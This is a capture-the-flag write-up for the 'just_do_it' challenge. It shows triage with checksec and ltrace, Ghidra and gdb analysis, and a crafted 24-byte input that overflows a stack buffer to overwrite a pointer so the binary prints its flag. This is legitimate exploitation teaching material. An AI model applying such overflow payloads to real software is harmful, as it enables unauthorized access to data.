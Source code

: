 # just_do_it writeup

## Triage

- Running some basic info gathering tools...

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ file just_do_it
just_do_it: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cf72d1d758e59a5b9912e0e83c3af92175c6f629, not stripped
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ readelf -h just_do_it
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x80484c0
  Start of program headers:          52 (bytes into file)
  Start of section headers:          6552 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         9
  Size of section headers:           40 (bytes)
  Number of section headers:         31
  Section header string table index: 28
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ checksec just_do_it
[*] '/home/noobuntu/nightmare/bof/justdoit/just_do_it'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- Running the binary:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ ./just_do_it
Welcome my secret service. Do you know the password?
Input the password.
password
Invalid Password, Try Again!
```

- Okay let's search for some strings:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ strings ./just_do_it -d
-- snip --
Correct Password, Welcome!
Invalid Password, Try Again!
P@SSW0RD
flag.txt
file open error.
file read error.
Welcome my secret service. Do you know the password?
Input the password.
```

- Let's try `P@SSW0RD` as the input:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ ./just_do_it
Welcome my secret service. Do you know the password?
Input the password.
P@SSW0RD
Invalid Password, Try Again!
```

- Not gonna be that easy, alright let's see output of `ltrace`:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ ltrace ./just_do_it > /dev/null
__libc_start_main(0x80485bb, 1, 0xffcf5cb4, 0x8048710 <unfinished ...>
setvbuf(0xf542a620, 0, 2, 0)                                                                  = 0
setvbuf(0xf542ada0, 0, 2, 0)                                                                  = 0
setvbuf(0xf542ad00, 0, 2, 0)                                                                  = 0
fopen("flag.txt", "r")                                                                        = 0x96371a0
fgets("TWCTF{pwnable_warmup_I_did_it!}\n"..., 48, 0x96371a0)                                  = 0x804a080
puts("Welcome my secret service. Do yo"...)                                                   = 53
puts("Input the password.")                                                                   = 20
fgets(P@SSW0RD
"P@SSW0RD\n", 32, 0xf542a620)                                                           = 0xffcf5bc8
strcmp("P@SSW0RD\n", "P@SSW0RD")                                                              = 1
puts("Invalid Password, Try Again!")                                                          = 29
+++ exited (status 0) +++
```

- Notice it just found the flag, however ending the challenge here would be a pity.
- It compares our input with `"P@SSW0RD"`, but without newline character.
- That's easily done with:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ echo -ne "P@SSW0RD" | ./just_do_it
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

- However, that was pointless as I got nothing from it anyway.


## Static analysis with ghidra

- This is decompiled `main` function from ghidra:

![maindecompiled](scrs/maindecompiled.png)

- So, `input_buffer` is 16 bytes long. Let's try to crash the program:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ ./just_do_it
Welcome my secret service. Do you know the password?
Input the password.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

- Nice, let's now try to make this buffer overflow useful.
- Because `string_message` is what gets printed with `puts` at the end, and it's also defined below our buffer, we can overflow this to get it to print the flag.
- Notice the line 23 in decompiled main.
- This variable holds our flag, and if I can get the address of it, and overwrite the `string_message` with that address, i get the flag printed out!


## Dynamic analysis

```sh
gef➤  x/s 0x804a080
0x804a080 <flag>:       ""
```

- This is the address of our flag variable which should hold the contents of a flag.
- After stepping some instructions and running the same `gdb` command, I see that the flag variable gets populated with the flag:

```sh
gef➤  x/s 0x804a080
0x804a080 <flag>:       "TWCTF{pwnable_warmup_I_did_it!}\n"
```

- Good, it's address is `0x804a080`.
- We need to find the address of `string_message` in gdb.
- That's easy because I know that the `string_message` gets printed with `puts` at the end.

```asm
   0x080486f4 <+313>:   push   DWORD PTR [ebp-0xc]
   0x080486f7 <+316>:   call   0x8048460 <puts@plt>
```

- Let's specify some input in gdb and see what's in `string_message` at the end of the function:

```sh
gef➤  c
Continuing.
Welcome my secret service. Do you know the password?
Input the password.
AAAAAAAAAAAAAAAAAAAAABCD

Breakpoint 2, 0x080486f7 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffffff
$ebx   : 0xf7e2a000  →  0x00229dac
$ecx   : 0x50
$edx   : 0xffffcf48  →  "AAAAAAAAAAAAAAAAAAAAABCD\n"
$esp   : 0xffffcf30  →  0x44434241 ("ABCD"?)
$ebp   : 0xffffcf68  →  0xf7ffd020  →  0xf7ffda40  →  0x00000000
$esi   : 0xffffd034  →  0xffffd22c  →  "/home/noobuntu/nightmare/bof/justdoit/just_do_it"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x080486f7  →  <main+013c> call 0x8048460 <puts@plt>
$eflags: [zero carry parity ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf30│+0x0000: 0x44434241   ← $esp
0xffffcf34│+0x0004: 0x080487c8  →  "P@SSW0RD"
0xffffcf38│+0x0008: 0xf7e2a620  →  0xfbad208b
0xffffcf3c│+0x000c: 0x00000000
0xffffcf40│+0x0010: 0xf7fbe4a0  →  0xf7c00000  →  0x464c457f
0xffffcf44│+0x0014: 0xf7fd6f90  →   mov edi, eax
0xffffcf48│+0x0018: "AAAAAAAAAAAAAAAAAAAAABCD\n"
0xffffcf4c│+0x001c: "AAAAAAAAAAAAAAAAABCD\n"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80486ee <main+0133>      mov    DWORD PTR [ebp-0xc], eax
    0x80486f1 <main+0136>      sub    esp, 0xc
    0x80486f4 <main+0139>      push   DWORD PTR [ebp-0xc]
 →  0x80486f7 <main+013c>      call   0x8048460 <puts@plt>
   ↳   0x8048460 <puts@plt+0000>  jmp    DWORD PTR ds:0x804a018
       0x8048466 <puts@plt+0006>  push   0x18
       0x804846b <puts@plt+000b>  jmp    0x8048420
       0x8048470 <exit@plt+0000>  jmp    DWORD PTR ds:0x804a01c
       0x8048476 <exit@plt+0006>  push   0x20
       0x804847b <exit@plt+000b>  jmp    0x8048420
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
puts@plt (
   [sp + 0x0] = 0x44434241,
   [sp + 0x4] = 0x080487c8 → "P@SSW0RD",
   [sp + 0x8] = 0xf7e2a620 → 0xfbad208b
)
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "just_do_it", stopped 0x80486f7 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80486f7 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/s $ebp-0xc
0xffffcf5c:     "ABCD\n"
```

- Here's how I'm crafting my input and getting the flag:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ python3 -c "import sys; sys.stdout.buffer.write(b'\x41'*20)" > input.txt
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ hexdump input.txt
0000000 4141 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141
0000014
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ python3 -c "import sys; sys.stdout.buffer.write(b'\x80\xa0\x04\x08')" >> input.txt
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ hexdump input.txt
0000000 4141 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 a080 0804
0000018
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/justdoit$ cat input.txt | ./just_do_it
Welcome my secret service. Do you know the password?
Input the password.
TWCTF{pwnable_warmup_I_did_it!}
```

- There are of course, a lot of simpler ways to solve this challenge.
- I've wrote `exploit.py` to automate this process using pwntools.
- Some other techniques for slinging raw bytes into the binary without using the pwntools are described here [justdoit_writeup](../pwn1/pwn1.md)
